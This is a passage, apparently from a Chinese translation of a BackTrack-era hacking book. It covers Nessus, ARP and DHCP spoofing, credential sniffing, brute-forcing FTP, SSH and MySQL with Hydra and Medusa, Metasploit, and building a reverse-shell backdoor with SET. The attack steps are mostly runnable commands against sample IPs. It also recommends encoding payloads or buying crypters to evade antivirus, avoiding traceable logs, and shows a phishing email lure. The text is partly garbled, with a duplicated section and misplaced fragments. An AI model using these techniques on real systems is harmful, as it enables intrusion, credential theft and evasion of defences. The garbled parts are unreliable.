### 在 Nessus 上添加用户

更新插件后，下一步是添加用户。为此，你需要运行如下命令：

```bash
/opt/nessus/sbin/nessus-adduser
```

上述命令会要求你提供用户名和密码，并询问是否需要给该用户管理员权限。最后，你需要运行下面的命令来启动位于 `https://localhost:8834` 的 nessus 服务器。

```bash
/etc/init.d/nessussard start
```

之后，你需要测试 Nessus 服务器是否已运行。为此，请按如下方式结合 `grep` 和 `netstat` 命令：

```bash
netstat -ano | grep 8834
```

上述命令将测试 Nessus 服务器是否正在监听 8834 端口。一旦你确认 Nessus 正在运行，你需要打开 `https://localhost:8834` 并按照提示接受通用证书，然后输入你的凭据登录。

### Nessus 控制面板

在开始在 Nessus 上评估漏洞之前，你需要了解 Nessus 控制面板（cPanel），它包含六个组件。报告（Reports）标签卡以报告的形式显示评估中的所有发现。

移动（Mobile）标签卡开启了一个新功能，可扫描移动设备的漏洞。接下来是扫描（scan）标签卡，你可以在从中扫描目标。之后是策略（policies）标签卡——它是 Nessus 上最重要的标签卡。在策略（Policies）标签卡中，你可以定义扫描参数，包括要执行的扫描类型、使用的插件、要排除的目标等。用户（users）标签卡允许你添加或删除用户。

最后是配置（configuration）标签卡，允许用户使用代理进行漏洞扫描。

### Nessus 默认策略

Nessus 上的策略允许你自定义需要执行的扫描。Nessus 有许多默认策略，每种策略针对不同类型的道德黑客有不同的目标。某些默认策略包括：

- 内部网络扫描
- 外部网络扫描
- 为 PCI DSS 审计做准备
- Web 应用测试

这四个默认策略并不是全部——如果你需要新策略（例如 WindowsBox），可以添加它。要这样做，打开“Policies”标签卡，然后点击顶部的“+add”。在那里，输入策略名称和描述，并勾选框让 Nessus 精确知道你需要扫描什么。调整策略标签卡上的所有选项，以简洁地匹配你的扫描需求。

### 启用安全检查（Safe Checks）

正如前面提到的，扫描是嘈杂且容易被检测的。为了确保系统不会崩溃，在 Nessus 中启用安全检查（Safe Checks）。启用安全检查后，Nessus 将只运行低风险扫描。除非如此，否则 Nessus 可能会触发拒绝服务。

### 设置端口范围（Setting Port Ranges）

默认情况下，Nessus 会扫描 1 到 1024 端口。许多服务运行在高于 1024 的端口。要更改范围，请将默认改为“all”。

### Nessus 凭据（Nessus Credentials）

从 Nessus 主页的侧边栏点击“Credentials”选项，你可以设置 OS、HTTP、SMB 等凭据。当你设置这些凭据时，可以进行深度分析。

### Nessus 插件（Nessus Plug-Ins）

设置凭据后，你需要设置插件。插件是用“Nessus脚本语言”编写的，学习该语言将帮助你修改现有插件或创建插件。

### 在 Nessus 上扫描目标（Scanning a Target）

在设置和配置完成后，现在可以扫描目标了。Nessus 的过程非常简单，你只需要打开扫描。你需要打开策略标签卡并指定扫描类型。扫描完成后，打开报告标签卡查看或下载报告。要了解更多关于 Nessus 和报告类型的信息，请查看 Nessus 用户指南。

### Nessus 与 Metasploit 集成（Integrating Nessus with Metasploit）

当你将 Nessus 集成到 Metasploit 时，你将在一个工具中执行任务——漏洞评估和漏洞利用。这将节省你大量时间。所有结果将显示在 `ms` 控制。

要导入 Nessus，你需要按照以下步骤操作：

在你的 BackTrack 控制台中输入 `msconsole` 以加载 Metasploit。

使用 `load ness` 命令在 BackTrack 上启动 Nessus。你也可以运行 `ness _ help` 命令，它将显示 Metasploit 中使用的 Nessus 选项。

使用 `nessus_connect` 命令连接到 Nessus 服务器，如下：

```bash
msf > nessus_connect jay:password@127.0.0.1:8834 ok
```

数字 `127.0.0.1` 指本地主机，`8834` 指端口。

获取 Nessus 报告的命令：
`msf > nessus_report_get <id>`

## OpenVAS

OpenVAS 是 Nessus 的替代方案。它是免费的，并预装在 BackTrack 中。你可以在 `http://www.backtrack-linux.org/wiki/index.php/OpenVas` 更多关于该工具的信息。

## 漏洞数据资源

如果 Nessus 没有显示漏洞，并不意味着目标没有漏洞。你必须使用其他工具来确保不会漏掉漏洞。有许多漏洞利用数据库可以帮助你学习如何利用漏洞。你需要保持数据库更新，因为 Nessus 和 OpenVAS 的更新并不频繁，无法捕获新的漏洞。

你可以尝试的一些漏洞数据库包括：

- Exploit DB (`exploit-db.com`)
- NIST (`http://nvd.nist.gov`)
- Seclist.org
- Securityfocus (`securityfocus.com`)
- 1337day.com
- 开源漏洞数据库 (`http://www.osvdb.org/`)
- CVE—常见漏洞与披露 (`http://cve.mitre.org/`)
- Exploitsearch.com
- Packetstormsecurity.com
- Exploitsearch.net

## BackTrack 中的 Exploit-db 数据库

Exploit-db 预装在 BackTrack 中。你可以在 `/Pentest/exploits/exploitdb` 目录下查看该数据库。在开始扫描之前，更新数据库以查看所有最新漏洞。你可以通过“`wget www.exploit-db.com/archive.tar.bz2`”获取更新，然后运行下面的命令提取下载的内容：

```
tar -xvjf www.exploit-db.com/archive.tar.bz2
```

一旦更新了数据库，你就可以使用“`searchsploit`”脚本在 BackTrack 上搜索你需要的漏洞。要搜索特定的漏洞，你需要在 `/Pentest/exploits/exploitdb` 目录下运行以下命令：

```
./searchsploit <String1> <String2> <string3>
```

你最多只允许指定三个字符串。如果你正在搜索与 Windows 远程 DOS 攻击相关的漏洞，可以使用以下命令：

```
./searchsploit windows remote dos
```


请注意，当你使用小写字母时，将看到更多结果。漏洞搜索结果将向你显示受该漏洞影响的目标、测试该漏洞的操作系统以及其他帮助你成功执行漏洞的细节。你可以尝试对目标机器运行漏洞以查看机器是否崩溃。但在进行伦理黑客时，你可能不需要进行 DOS 攻击。

注意，如果你不知道数据库壳代码（shellcodes）的功能，就不要下载它们——恶意黑客可能会在代码中添加后门。

## 结论

评估目标的漏洞是伦理黑客攻击中的重要一步。学习使用上述工具来收集更多关于目标的详细信息，同时确保你不会留下可以追溯到你的日志。

## 第 6 章

## 跨网络嗅探流量

要理解这一章，你需要对 TCP/IP 的原理有深入了解。你采用的嗅探网络的大多数技术仅在局域网内有效，无法跨越互联网。因此，你和目标需要在同一个局域网内才能使攻击成功。

简单来说，网络嗅探是一种攻击，伦理黑客在攻击中捕获跨网络的数据包，试图获取通过网络传输的未加密凭据。这些攻击针对 HTTP、FTP 和 SMTP。网站管理员使用加密通信的协议，确保即使攻击者嗅探了流量，也无法使用获得的数据。然而，通过正确的工具，即使是加密通信也可能嗅探到流量。

嗅探可以是主动的也可以是被动的。

主动嗅探涉及通过 MAC 泛洪和 ARP 欺骗等技术直接与目标机器交互。在被动嗅探中，攻击者监控网络并捕获从目标发送或接收的数据包。

## 基于集线器和交换机的网络

你需要理解两种网络——基于集线器的基于交换机的网络。集线器工作在 OSI 模型的物理层，而交换机工作在 OSI 模型的链路层。

在基于集线器的网络中，若主机 A 与主机 B 通信，所有流量都将转发到集线器。在这种情况下，集线器是所有流量的中心这意味着当它接收到流量时，会对网络上的所有主机广播。如果头部指向主机 B，所有可能接收该通信的其他设备都会将其丢弃。由于集线器向网络中的所有设备广播，大量的大量的带宽。同样，攻击者可以使用嗅探工具捕获流量并获取可以用来发起攻击的细节。

与集线器不同，交换机不会向网络中的所有设备/主机广播流量。相反，它仅将流量转发到目标主机。

为了捕获流量，你还需要区分混杂模式（promiscuous mode）和非混杂模式，这些是网卡相关的模式。网卡默认是非混杂模式，这意味着你只能捕获发往你计算机的流量。如果你需要强制捕获不是发给你计算机的流量，你的网卡需要设置为混杂模式。

## MITM（中间人）攻击

作为伦理黑客，要发起 MITM 攻击，你需要将自己置于客户端和服务器通信的中间。当你成功将自己置中间时，你可以发起任何攻击，包括拒绝服务、DNS 欺骗和会话劫持。

Dsniff 是一组你可以用于嗅探流量的工具。虽然这些工具已不再进行开发或更新，但它们对于“中间人”攻击仍然运行得非常完美。该集合中的某些工具包括：

- `Arpspoof`—通过伪造 ARP 响应来毒化 ARP 缓存
- `Mailsnarf`—嗅探通过 SMTP 和 POP 等协议发送的电子邮件消息
- `Urlnarf`—一种用于 URL 的嗅探器
- `Macof`—非常适合 MAC 泛洪攻击
- `Msgsnarf`—嗅探 IM 消息对话
- `Webspy`—嗅探受害者访问的 URL

## 用于 MITM 攻击的 ARP 欺骗

在对 MITM 攻击使用 ARP 欺骗之前，你只需要使用以下命令启用 IP 转发：

```bash
echo 1 >/proc/sys/net/ipv4/ip_forward
```

你可以通过运行 `cat` 命令来确认是否已启用 IP 转发。如果 `cat` 命令的结果为“1”，则表示已启用。如果结果显示“0”，则表示未启用。

```bash
cat /proc/sys/net/ipv4/ip_forward
```

在启用 IP 转发后，你需要三个信息来启动攻击——攻击者的 IP、受害者的 IP 以及默认网关。攻击者的 IP 地址是你在 BackTrack 地址，而默认网关是攻击者路由器的 IP 地址。你还需要从 ARP 缓存中收集受害者的 MAC 地址。

要使用 ARP Spoof，你需要使用下面的接口：

```bash
arpspoof -i [Interface] -t [Target Host]
```

如果你使用接口“`eth0`”、网关 `192.168.75.2` 和受害者 `192.168.75.142`，你的命令将如下：

```bash
arpspoof -i eth0 -t 192.168.75.142 192.168.75.2
```

在此次攻击之后，网关的 MAC 地址将被替换为攻击者的 MAC 地址，这意味着任何到网关的通信都将转发给攻击者。然而，你需要以反向发送相同的命令，因为你需要双向发送 ARP 响应。

```bash
arpspoof -i eth0 -t 192.168.75.2 192.168.75.142
```

## 使用 Dsniff

Dsniff 是你可以用于嗅探流量的嗅探工具之一。要开始使用该工具，请在终端中运行 `dsniff` 命令。这样做时，它可以捕捉网络中的任何明文密码。如果你在运行该命令时访问 FTP 账户，该工具将捕捉 FTP 账户密码。

## 使用 Driftnet

Drifnet 是一个让你看到受害者正在查看内容的工具。该工具预装在 BackTrack 上，你可以通过执行命令查看图片：

```bash
root@bt:~# drifnet -v
```

## Webspy 和 Urlsnarf

这些是 dsniff 工具集中的工具。Webspy 向你显示受害者访问的所有网页，而 Urlsnarf 向你显示受害者访问的所有 URL。要使用 Webspy，你需要执行以下命令：

```bash
webspy -i eth0 192.168.75.142
```

`Eth0` 是接口，而 `192.168.75.142` 是受害者的 IP 地址。

Urlsnarf 在受害者访问 URL 后立即向你显示所有这些 URL。

## 使用 Wireshark 进行网络嗅探

Wireshark 是一个完美的网络嗅探器。它不仅是道德黑客的理想工具，也适用于网络管理员发现网络中的问题。要使用它，请遵循以下步骤：

- 1. 在终端中运行 `wireshark` 命令。启动后，点击“Capture”（捕获），然后点击“Analyze”（分析）。
- 2. 选择你需要嗅探的接口并点击“start”（开始）。
- 3. 点击开始后，Wireshark 将开始捕获跨网络发送的数据。你可以登录一个支持 HTTP 身份验证的网站，并在你的攻击机上停止该过程。
- 4. 有这么多数据包，你需要在过滤器标签中输入 `http.request.method==POST` 来过滤它们。
- 5. 最后，你将右键点击过滤出的包并选择“Follow tcp stream”（跟踪 TCP 流），以显示来自受害者浏览器的原始 POST 请求。通过这个，你可以看到害者的用户名和密码。可以通过 Wireshark.org 了解更多信息。

### Ettercap

如果你需要最好的基于网络的攻击工具，可以使用 Ettercap。它允许你执行不同类型的 ARP 欺骗攻击。与其使用 dsniff 工具集中的 arpspoof 或工具，不如使用 Ettercap，因为它具有更多功能。

首先，你可以按照以下步骤使用该工具执行 ARP 毒化攻击：

- 1. 执行以下命令启动 Ettercap：`root@bt:#ettercap –G`
- 2. 启动后，点击“Sniff”（嗅探），然后点击“Unsniffed bridging”，然后选择合适的接口。
- 3. 选择“HostList”（主机列表）并点击“Scan for host”（扫描主机），这将显示网络中所有的活动主机。
- 4. 扫描完成后，点击“HostList”，选择受害者和网关。
- 5. 分别对受害者网关点击“Mitm Poison”（中间人毒化）。
- 6. 点击“Start”（开始）开始攻击。
- 7. 如果攻击成功，你将在 Ettercap 窗口底部看到“ARP poisoning started”（ARP 毒化已开始）的消息。

DHCP 是动态主机配置协议（Dynamic Host Configuration Protocol）的缩写。它是一种为需要 IP 地址的主机分配 IP 地址的工具。要进行 DHCP 欺骗，你需要在 DHCP 之前向目标发送包含其新 IP 地址的响应。在这里，你需要操控目标的 IP 地址、默认网关和 DNS 地址。

你可以通过两种方式使用 DHCP 攻击——将默认网关更改为不存在的 IP 地址导致拒绝服务攻击，或者将默认网关改为你的 IP 地址并嗅探流量。

要发起这些攻击，请从 MITM 菜单打开 DHCP 欺骗。之后，你需要输入 IP 池地址、子网掩码和 IP 服务器地址。在大多数情况下，子网掩码地址为 255.255.255.0，但在你的情况下可能会有所。输入详细信息后，点击确定，然后运行下面的命令释放 DHCP 租用。

```
ipconfig/release
```

然后你需要在目标机器上请求新的 IP 地址以触发攻击。要这样做，请执行以下命令：

```
ipconfig/renew
```


在 IP 地址刷新后，你可以使用数据包分析器来捕获目标的流量。

## 结论

在本章中，我们学习了通过基于集线器的网络和基于交换机的网络进行嗅探信息收集。我们还查看了用于中间人攻击的不同工具。此时此，如果目标运行的是弱系统，你已经可以访问它了。

# 第7章 远程利用

## 远程利用

在过去的四个主题中，我们重点关注使用各种工具进行信息收集。如果你面对的是弱目标，收集信息将很容易。运行强安全程序的目标可能较难进入。在本章中，我们将学习如何利用收集到的信息来访问目标机器。

利用分为客户端端或服务器端。在服务器端利用中，你将直接访问服务器，而不需要涉及用户。在客户端利用中，你直接利用目标。在本章中，你将学习一些可以用于黑入你目标系统的常用方法论。

## 网络协议及其工作原理

在启动服务器端利用之前，理解网络协议的工作原理至关重要。在黑客过程中，你会遇到三种主要的协议：`TCP`（传输控制协议）、`UDP`（用户数据报协议）和 `ICMP`（互联网控制消息协议）。

`TCP` 涉及互联网流量。该协议保证了通信的安全性，它是你每天遇到的大多数协议的一部分，例如 `HTTP`、`SMTP`、`Telnet` 和 `FTP`。每当客户端和服务器之间需要可靠通信时，就会使用 `TCP`。你可以参考第 6 章中的三次握手。

另一方面，`UDP` 增强了通信的快速。它是视频流等通信的理想选择。虽然与 `TCP` 相比，`UDP` 的安全性较低，但它的速度快得多。与 `TCP` 不同，`UDP` 不执行三次握手，因此不保证数据包一定到达目的地。常见的 `UDP` 协议有 `DNS` 和 `SQL Server`。

`ICMP` 是你在进行道德黑客过程中遇到的最后一个常用网络协议。与运行第 4 层的 `TCP` 和 `UDP` 不同，`ICMP` 运行在 OSI 模型的第 3 层。该协议对于诊断网络错误消息非常理想。该协议是无连接的，这意味着无法保证数据包能到达目的地。运行在该协议上的常见应用包括 `Traceroute` 和 `Ping`。

## 服务器协议

服务器协议属于以下两类之一：

- 基于文本的协议
- 二进制协议

基于文本的协议是你和我可以读懂的。作为一名道德黑客，你需要在在这里花费更多时间，因为这些协议是容易理解的。其中一些协议包括 `FTP`、`HTTP` 和 `SMTP`。

另一方面，二进制协议不容易理解，人类无法读取它们。作为一名道德黑客，你需要更多关注基于文本的协议而不是二进制协议。下面解释了一些常用的文本协议：

`FTP` 是文件传输协议（File Transfer Protocol）。该协议通常用于从服务器上传和下载文件，运行在端口 `21`。在任何网络中，`FTP` 都是最弱的环节，因为该通信未加密——你可以使用网络嗅探器捕获流量。

`SMTP` 是简单邮件传输协议（Simple Mail Transfer Protocol）的缩写。今天大多数邮件服务器使用 `SMTP`，它运行在端口 `25`。在道德黑客过程中，你会经常遇到 `SMTP`，它带有敏感信息。

`HTTP` 是基于文本协议的第三种。该协议运行在端口 `80`，帮助你连接到网站。当你进行网络黑客时，这就是你需要攻破的协议。

要详细了解这些协议，你可以进一步阅读以下资源：

http://www.networksorcery.com/enp/default1101.htm
http://www.networksorcery.com/enp/protocol/http.htm
http://www.networksorcery.com/enp/protocol/smtp.htm
http://www.networksorcery.com/enp/protocol/ftp.htm

## 网络远程服务攻击

在评估漏洞后，你需要使用收集到的详细信息来发起攻击。在这里，你可以使用 `Medusa`、`Ncrack` 和 `Hydra` 等工具来收集目标的用户名和密码。支持认证的网络通常使用弱密码，你可以通过暴力破解或字典攻击来猜测这些密码。暴力攻击具有干扰性，可能会导致拒绝服务。

## 暴力破解攻击

暴力破解攻击用于猜测密码。它们分为三类：

- 传统的暴力破解攻击是你尝试尽可能多的用户名/密码组合。
- 字典攻击涉及包含所有可能密码的自定义字典列表。
- 混合攻击是第三类，你把传统的暴力破解和字典攻击结合起来。

你可以用暴力破解攻击的某些协议包括 `FTP`、`SMTP`、`VNC`、`SSH`、`SMB`、`HTTP`、`RDP`、`MS SQL` 和 `MySQL`。

## 破解远程服务的工具

有很多工具可以用来发起暴力破解攻击，包括：

### Hydra

`Hydra` 由黑客社区（Hackers Community）开发。它涵盖大多数协议并适用于大多数操作系统。该工具预装了一个密码列表。你可以使用前 100 或 1000 个密码列表对服务进行暴力破解。你也可以使用自定义密码列表来增加成功机会。

在运行 `Hydra` 攻击时，可以使用以下基本语法：

`Hydra -L administrator -P password.txt <target ip > <service>` （在此情况下，用户名被设置为 "administrator"）

你也可以通过使用下面的命令指定用户名和密码列表：

`Hydra -L users.txt -P password.txt <target ip > <service>`

要破解 `FTP` 账户的密码，你首先需要使用 `Nmap` 运行简单的端口扫描以确定目标运行的服务。之后，你可以执行下面的命令：

```
hydra -l administrator -P /pentest/passwords/wordlist/darkcode.lst 192.168.75.140 ftp
```

只有确定目标是 Windows 时才使用用户名 administrator。

如果你不喜欢命令行，可以使用 `Hydra` 的 GUI 版本。这个 GUI 版本在 BackTrack 中默认可用——你只需要在命令行输入 "`Hydra`" 或 "`HydraGT`" 即可。

### Medusa

当你需要快速密码破解工具时，`Medusa` 可以替代 `Hydra`。`Hydra` 和 `Medusa` 都是并行暴力破解工具，但 `Hydra` 使用“fork”，而 `medusa` 使用“Thread”（线程）来确保信息不重复。执行命令 "`medusa`" 可以查看可用选项。运行 `Medusa` 需要四个参数。

`-h`: 攻击的主机名

`-u`: 攻击的用户名

- `P`: 密码文件
- `M`: 待攻击的服务

## 使用 Medusa 破解 SSH 密码

要使用 `Medusa` 破解密码，你只需要执行以下命令即可完成任务：

```
medusa -h 192.168.75.141 -u root -P password.txt -M ssh
```

执行命令后，`Medusa` 将为你找到正确的密码，你可以使用如 `putty` 等 SSH 客户端登录 SSH。你可以在 http://www.foofus.net/~jmk/medusa/medusa.html 了解更多关于 `Medusa` 的信息。

## Ncrack

这是一个基于 `Nmap` 库的工具。虽然该工具仅支持少数服务，但它与 `Nmap` 结合使用时非常完美。当你执行不带参数的 `ncrack` 命令时，你将看到应该使用的参数。要使用的参数包括：

- `-u`: 要攻击的用户名
- `-P`: 密码文件
- `-p`: 待攻击的服务端口（使用小写 p）
- `-f`: 在找到第一个凭据后停止破解

## 攻击 SMTP

`SMTP` 是一种用于发送电子邮件的协议。在最初创建时，该协议侧重于功能而非安全性。你可以通过向不同的电子邮件地址发送伪造邮件来攻击 `SMTP`。稍后，你可以利用这些攻击进行共享钓鱼。

在攻击 `SMTP` 时，你可以使用的一些基本命令包括：

- `+ HELLO`
- `MAIL FROM`
- `RCPT TO`
- `+ * DATA`

`HELLO` 向接收者问候，`MAIL FROM` 是你正在使用的电子邮件地址，`RCPT TO` 是接收者的电子邮件地址，`DATA` 是你需要发送的邮件正文。

## 攻击 SQL 服务器

讨论的大多数协议都是基于 `TCP` 的。`SQL` 基于 `UDP`。要开始攻击，你需要针对身份验证。大多数现代 Web 应用使用 `MySQL`。要对 `MySQL` 发攻击，你首先需要测试数据库凭据的弱性。为此，你需要使用 `Metasploit` 查找运行的 `MySQL` 版本。

你可以执行以下命令：

```
Msfconsole
```
这将启动 `Metasploit`

```
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <Target IP>
run
```

要测试数据库的弱性，你需要执行以下命令创建一个临时的 `MySQL` 账户：

```
mysql -u root -p grant all *.* to name@localhost identified by 'password';
```

要启动 `MySQL` 服务，执行以下命令：

```
root@root:/etc/init.d/mysql start
```

启动后，你现在可以使用 `Medusa` 或 `Hydra` 来破解数据库密码。这两个工具都支持以下命令：


``` 
hydra -l root -P /pentest/passwords/wordlist/darkcode.lst 192.168.75.140 mysql
```

## MS SQL 服务器

Microsoft SQL 有不同的版本，这意味着你可以对它使用不同的攻击方法。在启动任何攻击之前，你需要找到该服务的版本。你可以使用 Metasploit 上的辅助模块 `mssqlping` 来查找 MS SQL 的版本。

使用方法：

```
use auxiliary/scanner/mssql/mssql_ping

set RHOSTS <Target IP>

run
```

## Metasploit 命令

要理解如何使用 Metasploit 破解密码，你需要了解如何使用该工具、它的基本功能及其基本命令。多年来，Metasploit 引入了许多实用程序，以便 Metasploit 之外的组件可以在 Metasploit 内部。

`MSFPayload` 是一个新功能，用于生成有效负载（payload）和 shellcode 等其他可执行文件。Payload 是你在利用漏洞后在受害者机器上运行的代码。相反，shellcode 是 payload 内部的代码。

`MSFEncode` 是另一个功能，它通过对 payload 进行编码以绕过杀毒引擎。虽然大多数编码技术仍然不足以绕过杀毒软件，但你可以调整代码以轻松地通过这些病毒检测器。

`MSFVenom` 是 `MSFPayload` 和 `MSFEncode` 的结合，在一个工具中提供两个功能。Metasploit 的一些基本命令包括：

- `Help` – 显示命令。
- `MSfupdate` – 下载任何更新。
- `Show exploits` – 显示 Metasploit 框架中所有可用的漏洞。
- `Show payloads` – 加载 Metasploit 框架上的所有有效负载。你将在 Metasploit 上只会使用两种 payload：bond shell（绑定 shell，与受害者建立连接）和 Reverse shell（反向 shell，当受害者位于 NAT 后且无法建立直接连接时建立连接）。
- `Show auxiliary` – 在这里，你加载各种工具，例如扫描器和暴力破解工具。
- `Show posts` – 此命令显示在你攻破目标后所有可用模块。

Metasploit 还有一个搜索功能，你可以在其数据库中搜索 payload、shellcode 以及任何内容。例如，如果你需要搜索 Filezilla，你只需要执行以下命令：

```
search filezilla
```

Metasploit 上还有一个命令。要使用漏洞 `/dos/windows/ftp/filezilla_admin user`，你只需要运行该命令：

```
use auxiliary/dos/windows/ftp/filezilla_admin_user
```

运行上述命令后，你可以执行 `info` 命令来查看已打开模块的更多详细信息。如果你需要精通它，请学习更多 Metasploit。

## 使用 Metasploit 进行侦察

要理解如何使用 Metasploit 破解密码，你需要了解如何使用该工具、它的基本功能及其基本命令。多年来，Metasploit 引入了许多实用程序，以便 Metasploit 之外的组件可以在 Metasploit 内部。

`MSFPayload` 是一个新功能，用于生成有效负载和 shellcode 等其他可执行文件。Payload 是你在利用漏洞后在受害者机器上运行的代码。相反，shellcode 是 payload 内部的代码。

`MSFEncode` 是另一个功能，它通过对 payload 进行编码以绕过杀毒引擎。虽然大多数编码技术仍然不足以绕过杀毒软件，但你可以调整代码以轻松地通过这些病毒检测器。

`MSFVenom` 是 `MSFPayload` 和 `MSFEncode` 的结合，在一个工具中提供两个功能。Metasploit 的一些基本命令包括：

- `Help` – 显示命令。
- `MSfupdate` – 下载任何更新。
- `Show exploits` – 显示 Metasploit 框架中所有可用的漏洞。
- `Show payloads` – 加载 Metasploit 框架上的所有有效负载。你将在 Metasploit 上只会使用两种 payload：bond shell（绑定 shell，与受害者建立连接）和 Reverse shell（反向 shell，当受害者位于 NAT 后且无法建立直接连接时建立连接）。
- `Show auxiliary` – 在这里，你加载各种工具，例如扫描器和暴力破解工具。
- `Show posts` – 此命令显示在你攻破目标后所有可用模块。

Metasploit 还有一个搜索功能，你可以在其数据库中搜索 payload、shellcode 以及任何内容。例如，如果你需要搜索 Filezilla，你只需要执行以下命令：

```
search filezilla
```

Metasploit 上还有一个命令。要使用漏洞 `/dos/windows/ftp/filezilla_admin user`，你只需要运行该命令：

```
use auxiliary/dos/windows/ftp/filezilla_admin_user
```

运行上述命令后，你可以执行 `info` 命令来查看已打开模块的更多详细信息。如果你需要精通它，请学习更多 Metasploit。

## 使用 Metasploit 执行侦察

在使用 Metasploit 执行侦察时，你需要收集目标信息。这是任何攻击的第一步，Metasploit 为此目的提供了许多工具。

要开始侦察，你可以使用辅助模块扫描开放端口、服务和漏洞。例如，你可以使用扫描模块查找开放端口：

```
use auxiliary/scanner/portscan/tcpscan

set RHOSTS <Target IP>

run
```

一旦识别了开放端口，你就可以识别在这些端口上运行的服务。Metasploit 有许多用于此目的模块，例如：

```
use auxiliary/scanner/http/http_version

set RHOSTS <Target IP>

run
```

在识别服务后，你可以搜索已知漏洞。Metasploit 拥有庞大的漏洞模块数据库。

```
search vulnerability
```

通过收集这些信息，你可以规划攻击并选择合适的漏洞利用。这对于成功的渗透测试至关重要。

这将向你显示所有可用的漏洞（exploits）。它会显示一个选项列表，你可以从中选择一个选项来执行漏洞利用。例如，`-e`、`-p` 和 `-x` 漏洞分别允许你针对所有匹配的目标启动漏洞、根据开放的端口选择模块，以及根据漏洞选择模块。

要使用 `db_autopwn`，你首先需要使用 `db_nmap` 命令找到开放的端口（该命令会自动将文件保存到 Metasploit 数据库中）。然后，你可以使用 `-p` 命令执行所有基于开放端口的漏洞。

```
db_autopwn -p -e
```


## Armitage

如果你不喜欢直接执行命令，可以使用 Armitage，它是 Metasploit 的图形界面（GUI）版本。Armitage 设计为一种允许在使用 Metasploit 的同时进行攻击管理的工具。它的设计也是为了让后渗透（post-exploitation）变得简单一些。使用 Armitage 时，你会发现客户端攻击变得容易了一些但你也可以使用社交工程工具（Social Engineering toolkit），它比 Armitage 更好。

Armitage 预装在 BackTrack 5 或更高版本中。对于旧版本，你需要在 shell 中执行命令 `apt-get install Armitage` 来安装该工具。要启动它，在 shell 中使用命令 `Armitage`，工具就会启动。只需点击 `connect` 按钮，工具就会开始。我们已经介绍了 Armitage 大大部分扫描操作。

关于 Armitage 有很多细节需要学习。你可以在 Metasploit 控制台中执行的每一个命令在 Armitage 中都可以使用。你可以在此处了解更多关于该工具的信息：

`http://www.fastandeasyhacking.com/manual`

## 第8章

## 攻击客户端的技巧

在第七章中，我们查看了攻击服务器的不同技术。然而，服务器每天都在变得越来越强大。在客户端隐藏在 NAT、路由器或防火墙之后且无法直接访问的情况下，你将需要依赖客户端攻击。俗说，“人非圣圣”——意味着你的受害者会犯错，从而让你获得访问其系统的权限。

为了让客户端攻击生效，你需要收集受害者的个人信息，包括他们的喜好、厌恶、朋友、工作地、宠物名称以及任何可能帮助你发起攻击的个人细节。社交媒体是寻找所有这些细节的绝佳场所。

### 客户端攻击攻击场景

你可以使用许多方法来攻击受害者。

### 带有恶意附件的邮件

在这里，你以 PDF、mp3 或 exe 的形式将恶意文件发送给受害者。如果受害者打开、下载并执行这些文件，你将获得一个 `meterpreter` 会话（session），这将让你获得访问受害者系统的权限。

### 邮件中的恶意链接

在这种方法中，你向受害者发送一个链接，希望他们会点击该链接。链接可以将受害者重定向到虚假的登录页面或带有恶意代码的服务器。当你托管 Web 服务器时，代码将在受害者的浏览器上执行，这将为你提供一个 `meterpreter` 会话，通过你可以控制受害者的系统。

### 劫持更新

在这种情况下，你需要确保受害者在每次更新软件时都会下载恶意代码。我们将在下面详细介绍这一点。

### 物理安装在受害者机器上的恶意软件

如果你对目标机器有物理访问权限，可以在机器上插入 U 盘。这个 U 盘可能包含恶意文件或可执行代码。当你插入 U 盘时，该代码或文件会立即执行，并在目标机器上打开一个 `meterpreter`。

要执行上述四种攻击，你可以使用社交工程工具（SET）。

### 带有恶意附件的邮件攻击

在这里，你需要创建一个自定义的可执行文件或 PDF 来攻击受害者。创建一个自定义的可执行文件并没有挑战性——最让大多数道德黑客面临挑战的，如何说服目标执行 `.exe` 文件。你可以创建自己的可执行文件，但可能会被受害者的防病毒软件检测，或者你可以从 `hack-forums.net` 等论坛购买加密器（crypter）并创建一个不可检测的可执行文件。如果你选择自己创建，你需要让它绕过受害者使用的防病毒软件。

### 使用 SET 创建后门

当你需要在利用 Metasploit 功能的同时执行客户端攻击时，SET 非常有用。要使用 set 创建后门，请按照以下步骤操作：

在 BackTrack 上打开 `/pentest/exploits/set` 目录并执行以下命令：

```
cd /pentest/exploits/set
./set
```

社交工程工具是 TrustedSec 的产品。

访问：`https://www.trustedsec.com`

- 从菜单中选择：
  1) 社交工程攻击 (Social-Engineering Attacks)
  2) 快速渗透测试 (Fast-Track Penetration Testing)
  3) 第三方模块 (Third Party Modules)
  4) 更新 Metasploit Framework (Update the Metasploit Framework)
  5) 更新社交工程工具 (Update the Social-Engineer Toolkit)
  6) SET 配置 (SET configuration)
  7) 帮助、感谢和关于 (Help, Credits, and About)
  99) 退出社交工程工具 (Exit the Social-Engineer Toolkit)

按 `1` 选择第一个选项，然后你需要选择第四个选项 `创建负载和监听器（Create a payload and a listener）`。在使用之前确保你已更新 SET。

工具会要求你输入反向 IP，你需要输入它。在互联网上进行攻击时需要在路由器上进行端口转发。

选择一个符合你要求的适当负载。你可以选择看到的第一个选项 `Windows Shell Reverse_TCP` 来使其简单。然后你将被要求选择编码，你可以选择 `shikata_ga`。虽然 SET 推荐使用 `backdoored`，但你需要对其进行多次编码以绕过防病毒软件。

下一步是你选择所需的端口，你可以选择任何你喜欢的端口。此过程需要时间，Metasploit 将启动。你将看到如下：在根目录 `/pentest/exploits/set` 下有一个名为 `msf` 的文件。之后，将创建并存储 `.exe` 文件到 `/pentest/exploits/set`。

### 使用 PDF 进行黑客

如果你通过 Wordpad 等文本编辑器打开 PDF 文件，你会发现它有四个部分：头部（header）、正文（body）、交叉引用表（cross-reference table）和尾部（trailer）。头部显示 PDF 版本，正文携带所有对象，交叉引用表指定对象的位置，尾部（始终从 `%EOF` 开始）是读取开始的地方。

### PDF 启动动作

PDF 启动动作是 PDF 的重要功能。通过此功能，你可以启动其他程序。在 Adobe Reader 更新停止启动恶意代码之前，黑客会随 PDF 传播恶意软件和机器人网络。受害者会收到像下面这样的邮件：

| 发件人：Royal Mail |
| 日期：2010年4月15日 星期四下午1:32 |
| 收件人： |
| 主题：重要：Royal Mail 递送 #109217 |
| 附件：Royal_Mail_Delivery_Invoice_109217.pdf (111 KB) |

我们在递送时错过了您。请查看发票并就任何问题与我们联系。我们将在下一个工作日再次递送。Royal Mail。

